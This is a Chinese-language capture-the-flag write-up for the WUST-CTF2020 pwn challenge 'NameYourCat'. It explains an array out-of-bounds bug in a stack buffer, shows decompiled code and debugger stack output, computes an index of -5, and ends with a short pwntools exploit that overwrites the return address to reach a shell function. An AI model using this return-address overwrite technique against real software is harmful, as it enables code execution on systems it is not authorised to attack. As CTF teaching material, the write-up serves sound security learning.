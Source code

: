 
## NameYourCat
- 题目描述：
    
    > Author: ColdShield
- 题目附件：[NameYourCat](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/NameYourCat/NameYourCat)
- 考察点：数组越界
- 难度：简单
- 初始分值：1000
- 最终分值：997
- 完成人数：4

### 程序分析

和狗狗那题类似，出题人不是说喜欢喵嘛~ 这题只是把狗狗改成了喵，还是数组越界的漏洞。

### 解题思路

```c
unsigned int vulnerable(){
  int index; // ST20_4
  signed int i; // [esp+Ch] [ebp-3Ch]
  char Cats[40]; // [esp+14h] [ebp-34h]
  // ...
}
```

这次数组喵`Cats`是`vulnerable`中定义的临时变量

既然喵位于栈中，那么利用数组越界直接修改程序返回地址即可

```nasm
 ► 0x8048695 <NameWhich+99>     call   __isoc99_scanf@plt <0x80484b0>
        format: 0x804889f ◂— 0x733725 /* '%7s' */
        vararg: 0xffffcc54 —▸ 0xf7fe9790 ◂— pop    edx
```

查看返回地址：

```nasm
0e:0038│ ebp  0xffffcc28 —▸ 0xffffcc88 —▸ 0xffffcc98 ◂— 0x0
0f:003c│      0xffffcc2c —▸ 0x80486e9 (vulnerable+54) ◂— add    esp, 0x10
10:0040│      0xffffcc30 —▸ 0xffffcc54 —▸ 0xf7fe9790 ◂— pop    edx
```

偏移量：`(0xffffcc2c-0xffffcc54)/8=-5`

### exp
```python
shell = p32(0x080485CB)
sla('>','-5')
sla('Give your name plz: ',shell)
```



